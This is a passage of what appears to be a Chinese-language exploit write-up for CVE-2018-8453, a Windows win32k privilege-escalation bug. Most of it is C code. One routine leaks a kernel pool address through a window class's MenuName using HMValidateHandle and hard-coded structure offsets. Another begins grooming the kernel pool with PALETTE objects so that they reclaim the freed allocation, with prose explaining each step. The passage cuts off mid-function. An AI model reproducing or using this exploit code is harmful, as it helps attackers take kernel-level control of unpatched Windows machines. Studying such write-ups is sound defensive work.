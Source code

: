 ```
    }
 
    WNDCLASSW wc = { 0 };
    WCHAR szMenuName[0x1005] = { 0 };
    PWCHAR pClassName = L"LEAKWS";
 
    memset(szMenuName, 0x42, dwSize - sizeof(WCHAR) - POOL_HEADER_SIZE);
    wc.style = CS_HREDRAW | CS_VREDRAW;
    wc.hInstance = handle;
    wc.lpfnWndProc = DefWindowProc;
    wc.lpszClassName = pClassName;
    wc.lpszMenuName = szMenuName;
 
    if (!RegisterClassW(&wc))
    {
        ShowError("RegisterClassW", GetLastError());
        goto exit;
    }
 
    HWND hWnd = CreateWindowExW(0, pClassName, NULL, WS_DISABLED, NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL);
    if (!hWnd)
    {
        ShowError("CreateWindowExW", GetLastError());
        goto exit;
    }
     
    lHMValidateHandle HMValidateHandle = (lHMValidateHandle)GetHMValidateHandle();
    if (!HMValidateHandle) goto exit;
     
    PTHRDESKHEAD pTagWndHead = (PTHRDESKHEAD)HMValidateHandle(hWnd, TYPE_WINDOW);
    ULONG64 ulTagCls = 0, ulClientDelta = 0;
 
    ulClientDelta = (ULONG64)pTagWndHead->pSelf - (ULONG64)pTagWndHead;
    ulTagCls = *(PULONG64)((ULONG64)pTagWndHead + 0xA8) - ulClientDelta;
    ulRes = *(PULONG64)(ulTagCls + 0x98);
    DestroyWindow(hWnd);
    UnregisterClassW(pClassName, handle);
exit:
    return ulRes;
}
```  
  
  
此时可以通过创建一个0x1000字节的MenuName，在释放掉它并马上申请两个占用0x800的PALETTE，这样这两个PALETTE就会占用释放掉的MenuName，它们在内存中是相邻的，且可以获取到第一个PALETTE对象的地址，此时记录第一个PALETTE对象cEntries对象的地址供之后使用，相应的代码如下：  
```
BOOL GetPalette_CVE_2018_8453(HPALETTE *hPalette)
{
    BOOL bRet = TRUE;
    CONST DWORD dwCount = 0x1500;
    DWORD i = 0, dwSize = 0x800;
    HACCEL hAccel[dwCount] = { NULL };
 
    PLOGPALETTE pLogPalette = NULL;
 
    DWORD dwNumEntries = (dwSize - 0x88 - POOL_HEADER_SIZE - 0x10) / 4;
    DWORD dwPalSize = sizeof(LOGPALETTE) + (dwNumEntries - 1) * sizeof(PALETTEENTRY);
 
    pLogPalette = (PLOGPALETTE)malloc(dwPalSize);
    if (!pLogPalette)
    {
        ShowError("malloc", GetLastError());
        goto exit;
```